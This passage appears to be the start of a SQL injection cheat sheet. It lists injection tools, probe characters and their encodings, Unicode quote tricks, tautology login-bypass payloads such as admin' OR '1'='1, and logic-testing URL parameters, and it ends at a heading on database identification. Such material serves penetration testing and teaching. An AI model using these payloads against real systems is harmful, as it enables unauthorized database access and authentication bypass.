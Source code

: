 ## Tools

* [sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap) - Automatic SQL injection and database takeover tool
* [r0oth3x49/ghauri](https://github.com/r0oth3x49/ghauri) - An advanced cross-platform tool that automates the process of detecting and exploiting SQL injection security flaws

## Entry Point Detection

Detecting the entry point in SQL injection (SQLi) involves identifying locations in an application where user input is not properly sanitized before it is included in SQL queries.

* **Error Messages**: Inputting special characters (e.g., a single quote ') into input fields might trigger SQL errors. If the application displays detailed error messages, it can indicate a potential SQL injection point.
    * Simple characters: `'`, `"`, `;`, `)` and `*`
    * Simple characters encoded: `%27`, `%22`, `%23`, `%3B`, `%29` and `%2A`
    * Multiple encoding: `%%2727`, `%25%27`
    * Unicode characters: `U+02BA`, `U+02B9`
        * MODIFIER LETTER DOUBLE PRIME (`U+02BA` encoded as `%CA%BA`) is transformed into `U+0022` QUOTATION MARK (`)
        * MODIFIER LETTER PRIME (`U+02B9` encoded as `%CA%B9`) is transformed into `U+0027` APOSTROPHE (')

* **Tautology-Based SQL Injection**: By inputting tautological (always true) conditions, you can test for vulnerabilities. For instance, entering `admin' OR '1'='1` in a username field might log you in as the admin if the system is vulnerable.
    * Merging characters

      ```sql
      `+HERP
      '||'DERP
      '+'herp
      ' 'DERP
      '%20'HERP
      '%2B'HERP
      ```

    * Logic Testing

      ```sql
      page.asp?id=1 or 1=1 -- true
      page.asp?id=1' or 1=1 -- true
      page.asp?id=1" or 1=1 -- true
      page.asp?id=1 and 1=2 -- false
      ```

* **Timing Attacks**: Inputting SQL commands that cause deliberate delays (e.g., using `SLEEP` or `BENCHMARK` functions in MySQL) can help identify potential injection points. If the application takes an unusually long time to respond after such input, it might be vulnerable.

## DBMS Identification

### DBMS Identification Keyword Based
